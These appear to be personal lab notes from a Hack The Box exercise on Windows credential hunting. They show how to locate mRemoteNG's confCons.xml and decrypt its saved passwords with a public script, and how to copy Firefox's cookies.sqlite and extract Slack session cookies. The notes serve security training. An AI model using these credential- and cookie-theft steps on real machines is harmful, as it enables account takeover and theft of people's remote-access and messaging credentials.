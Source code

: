 or using cmd `C:\\>dir "C:\\Program Files"`

from the result, `mRemoteNG` stands out. `mRemoteNG` is a tool used to manage and connect to remote systems using VNC, RDP, SSH, and similar protocols.

`mRemoteNG` saves connection info and creds in `confCons.xml` file. default location `%USERPROFILE%\\APPDATA\\Roaming\\mRemoteNG`.  They use a hardcoded master password, `mR3m`, so if anyone starts saving credentials in `mRemoteNG` and does not protect the configuration with a password, we can access the credentials from the configuration file and decrypt them.

```powershell
PS C:\\htb> ls C:\\Users\\julio\\AppData\\Roaming\\mRemoteNG

    Directory: C:\\Users\\julio\\AppData\\Roaming\\mRemoteNG

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/21/2022   8:51 AM                Themes
-a----        7/21/2022   8:51 AM            340 confCons.xml
              7/21/2022   8:51 AM            970 mRemoteNG.log
```

We can get the encrypted passwod from the `confCons.xml` . Which can be decrypted using [https://github.com/haseebT/mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt)

```
dollarboysushil@htb[/htb]$ python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig=="
```

`-s` flag to specify the encrypted password

If user is using custom password for to protect the configuration then we can decrypt the hash by specifying the password.

```
dollarboysushil@htb[/htb]$ python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p [custom password]
```

## **Abusing Cookies to Get Access to IM Clients**

instant messaging (IM) applications like `Slack` and `Microsoft Teams`

#### **Copy Firefox Cookies Database**

Firefox saves the cookies in an SQLite database in file named `cookies.sqlite` located at `%APPDATA%\\Mozilla\\Firefox\\Profiles\\<RANDOM>.default-release`.

* `PS C:\\htb> copy $env:APPDATA\\Mozilla\\Firefox\\Profiles\\*.default-release\\cookies.sqlite .` → copy the cookies db.
* Then use  [cookieextractor.py](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py) to extract the cookies

```
dollarboysushil@htb[/htb]$ python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
```
